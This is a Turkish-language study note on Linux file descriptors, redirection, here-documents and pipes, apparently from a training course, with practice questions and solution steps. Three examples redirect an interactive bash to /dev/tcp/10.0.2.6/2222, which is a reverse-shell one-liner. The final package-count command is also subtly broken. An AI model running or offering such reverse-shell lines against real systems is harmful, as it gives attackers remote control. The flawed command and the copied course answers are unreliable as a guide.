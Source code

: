 ```yaml
---
icon: material/help
---
```


# File Descriptors and Redirections

## File Descriptors

| Name | Value | Description |
|:---|:---|:---|
| STDIN | 0 | Girdiler için kullanılan veri akışı. |
| STDOUT | 1 | Çıktılar için kullanılan veri akışı. |
| STDERR | 2 | Hata çıktıları için kullanılan veri akışı. |

## STDOUT and STDERR

Bir komutun çalışması esnasında üretebileceği hatalar Null Device konumuna yeniden yönlendirilerek göz ardı edilebilir:

```bash
find /etc -name shadow 2> /dev/null
```

Aşağıda verilen komut ile STDERR ve STDOUT, açılacak olan IP adresi ve port hedefine yeniden yönlendirilmiştir:

```bash
bash -i > /dev/tcp/10.0.2.6/2222 2>&1
```

Yukarıdaki yeniden yönlendirme farklı şekillerde de ifade edilebilir. Bunlardan biri aşağıda verildiği gibidir:

```bash
bash -i &>/dev/tcp/10.0.2.6/2222
```

Diğeri ise aşağıda verildiği gibidir:

```bash
bash -i >&/dev/tcp/10.0.2.6/2222
```

İlk verilen kullanım şekli, önerilen kullanım şeklidir.

## Redirect STDOUT and STDERR to Separate Files

Bir komutun ürettiği çıktılardan STDOUT akışı bir dosyaya, STDERR akışı ise başka bir dosyaya yeniden yönlendirilebilir:

```bash
find /etc -name shadow 2>stderr.txt 1>stdout.txt
```

## Redirect STDIN

Yeniden yönlendirme işlemi STDIN akışı için de yapılabilir. Bunun için farklı olarak `>` işareti yerine `<` işareti kullanılır. Örneğin `stdout.txt` dosyasına kaydedilen veriler `cat` aracına girdi olarak verilebilir:

```bash
cat 0<stdout.txt
```

## Redirect STDOUT and Append to a File

Eğer `>` işareti ile yeniden yönlendirme yapılırsa yeni bilgiler eski bilgilerin üzerine yazılır. Bunu önlemek için `>>` işareti kullanılabilir. Böylece yeni bilgiler eski bilgilerle birlikte tutulur:

```bash
find /etc -name shadow 2>stderr.txt 1>>stdout.txt
```

## Redirect STDIN Stream to a File

Eğer `<<` işareti kullanılırsa kullanıcı girdisi akışa eklenebilir. Girdinin ne zaman biteceğinin algılanması için bir anahtar kelime de (örneğin EOF) verilmelidir. Bu tarz bir yeniden yönlendirme [Here Documents](https://www.gnu.org/software/bash/manual/bash.html#Here-Documents) formatıdır:

```bash
cat << EOF > stream.txt
```

## Pipes

STDOUT akışını yeniden yönlendirmenin başka bir yolu da Pipe kullanmaktır. Aşağıdaki komutta örnek bir Pipe kullanımı gösterilmiştir:

```bash
find /etc -name "*.conf" 2> /dev/null | grep systemd
```

## Questions

```text
How many files exist on the system that have the ".log" file extension?
```

??? tip "Steps"

    ```bash
    find / -name "*.log" -type f 2> /dev/null | wc -l
    ```

```text
How many total packages are installed on the target system?
```

??? tip "Steps"

    Aşağıda verilen komut ile elde edilen sayının 1 eksiği alındı. Çünkü komut çıktısının ilk satırı, bilgi satırıdır:

    ```bash
    apt list --installed 2> /dev/null | $(($(wc -l) - 1))
    ```
